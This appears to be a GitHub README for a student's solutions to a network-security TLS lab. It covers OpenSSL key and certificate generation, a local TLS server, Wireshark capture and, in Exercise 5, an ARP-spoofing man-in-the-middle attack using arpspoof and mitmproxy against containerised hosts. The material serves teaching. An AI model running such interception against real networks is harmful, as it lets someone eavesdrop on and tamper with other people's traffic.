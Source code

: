 # 🔐 TLS Lab Solutions - Network Security (Kali Linux)  

This repository contains my solutions and notes for the **TLS Lab** from my **Network Security Course**. The exercises were performed in **Kali Linux** using **OpenSSL, Wireshark, and Docker**.  

## 📌 **Lab Overview**  
In this lab, we explored **TLS certificates, encryption, and attacks** using various tools. The main topics covered:  
✅ Generating RSA keys and certificate signing requests (CSR).  
✅ Creating and inspecting self-signed **X.509 certificates**.  
✅ Setting up a **TLS-secured server** using OpenSSL.  
✅ Analyzing **TLS traffic** using **Wireshark**.  
✅ Performing a **Man-in-the-Middle (MitM) attack** using ARP poisoning.  

---

## 🚀 **Solutions for Each Exercise**  

### 🔹 **Exercise 1: Generating a Private Key & CSR**  
1️⃣ Generate an **RSA Private Key (1024-bit)**:  
```sh
openssl genrsa -out mykey.pem 1024
```  
2️⃣ Create a **Certificate Signing Request (CSR)**:  
```sh
openssl req -new -key mykey.pem -out mycsr.csr
```  
❓ **Issues**:  
- **Weak Key Length (1024-bit RSA)** – should use **4096-bit** for better security.  
- **Sharing the Private Key** exposes all encrypted data to attackers.  

---

### 🔹 **Exercise 2: Self-Signed Certificate with OpenSSL**  
1️⃣ Sign the CSR and generate a **self-signed certificate**:  
```sh
openssl x509 -req -days 365 -in mycsr.csr -signkey mykey.pem -out mycert.crt
```  
2️⃣ Inspect the certificate details:  
```sh
openssl x509 -in mycert.crt -text -noout
```  

---

### 🔹 **Exercise 3: Setting Up a TLS-Enabled Server**  
1️⃣ Start a **TLS Server** on port `1443` with OpenSSL:  
```sh
openssl s_server -accept 1443 -cert mycert.crt -key mykey.pem
```  
2️⃣ Generate a **stronger RSA key (4096-bit)** and restart the server:  
```sh
openssl genrsa -out strongkey.pem 4096
openssl req -new -key strongkey.pem -out strongcsr.csr
openssl x509 -req -days 365 -in strongcsr.csr -signkey strongkey.pem -out strongcert.crt
openssl s_server -accept 1443 -cert strongcert.crt -key strongkey.pem
```  
3️⃣ Open a **browser** and visit:  
```
https://localhost:1443
```  

---

### 🔹 **Exercise 4: Analyzing TLS Traffic with Wireshark**  
1️⃣ Start **Wireshark** with root privileges:  
```sh
sudo -E wireshark
```  
2️⃣ Capture traffic on the **loopback (lo) interface**.  
3️⃣ Visit `https://localhost:1443` and reload the page.  
4️⃣ Analyze the **TLS handshake, encryption, and decryption process**.  

---

### 🔹 **Exercise 5: Man-in-the-Middle (MitM) Attack via ARP Poisoning**  
📌 **Setup**:  
- **Alice** (User) - Browses the web  
- **Bob** (Web Server) - Hosts a website  
- **Eve** (Attacker) - Performs MitM  

1️⃣ **Run the MitM Docker Containers**:  
```sh
docker compose up --build -d
```  
2️⃣ **Connect to Containers**:  
```sh
docker exec -it mitm_alice /bin/bash
docker exec -it mitm_bob /bin/bash
docker exec -it mitm_eve /bin/bash
```  
3️⃣ **Perform ARP Spoofing as Eve**:  
```sh
arpspoof -i eth0 -t <Alice_IP> -r <Bob_IP>
arpspoof -i eth0 -t <Bob_IP> -r <Alice_IP>
```  
4️⃣ **Monitor Traffic with mitmproxy**:  
```sh
source .pyenv/bin/activate
pip3 install mitmproxy
mitmproxy -T --host
```  

---

## 📂 **Folder Structure**  
```
📦 TLS-Lab-Solutions
 ┣ 📜 README.md  (This file)
 ┣ 📂 solutions  (Contains scripts & configurations)
 ┃ ┣ 📜 exercise1_key_csr.sh
 ┃ ┣ 📜 exercise2_certificate.sh
 ┃ ┣ 📜 exercise3_tls_server.sh
 ┃ ┣ 📜 exercise4_wireshark_notes.txt
 ┃ ┗ 📜 exercise5_mitm_attack.sh
 ┗ 📂 screenshots  (Screenshots of Wireshark and TLS setup)
```  

---

## 🛠 **Tools Used**  
✅ **OpenSSL** - Generating RSA keys & TLS certificates  
✅ **Wireshark** - Capturing & analyzing TLS traffic  
✅ **Docker** - Running MitM attack containers  
✅ **arpspoof** - ARP poisoning for MitM attacks  
✅ **mitmproxy** - Intercepting HTTPS traffic  

---

## 🔥 **Future Improvements**  
🔹 Automate TLS setup using scripts  
🔹 Implement **HSTS & Certificate Pinning** for security  
🔹 Experiment with **TLS 1.3 & newer cipher suites**  

---

## 💡 **Conclusion**  
This lab covered **TLS security, traffic analysis, and MitM attacks**. By using OpenSSL, Wireshark, and Docker, we gained hands-on experience with **certificate management and real-world cyber threats**.  

📢 **Contributions Welcome!** If you have improvements or additional insights, feel free to submit a PR.  

🚀 **Author**: *[Your Name]* | 🔗 *[Your GitHub Link]*  

